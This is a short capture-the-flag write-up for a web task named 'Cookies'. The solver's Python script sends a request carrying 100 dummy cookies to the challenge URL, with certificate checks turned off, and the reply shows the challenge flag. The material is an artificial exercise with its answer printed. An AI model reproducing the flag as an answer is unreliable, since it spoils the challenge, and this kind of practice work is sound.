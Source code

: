 # Cookies

## Description 
```
Be patient. The site is very hungry)
```

## Writeup

Visiting the website we receive the message `I'm hungry!!! Feed me!`. <br/>
Getting this I thought I would just have to send a huge payload in the header `cookies`. <br/>
For this purpose I write a small script. <br/>
```py
import requests

url = 'https://ctf.mf.grsu.by/tasks/0423917d9fc95820065749eb3ca411fe/'

cookies = {}

# Loop to create a dictionary with 100 different objects in a dictionary
for i in range(1, 101):
    cookies[f'object{i}'] = f'randomContent{i}'

req = requests.get(url, cookies=cookies, verify=False)

print(req.text)
```

Executing this I obtained the flag which concludes the writeup. <br/>
```html
<html>
<head>
    <title>CTF-task Grodno</title>
    <meta name="owner" content="grodno_CTF" />
    <meta name="publisher" content="grodno_CTF" />
    <meta name="copyright" content="grodno_CTF" />
    <meta name="robots" content="noindex,nofollow">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>


    Я наелся! Вот флаг:grodno{515ec0oW0uJWX1ZYxG9caZFX1D8f1848}  </body>
</html>
```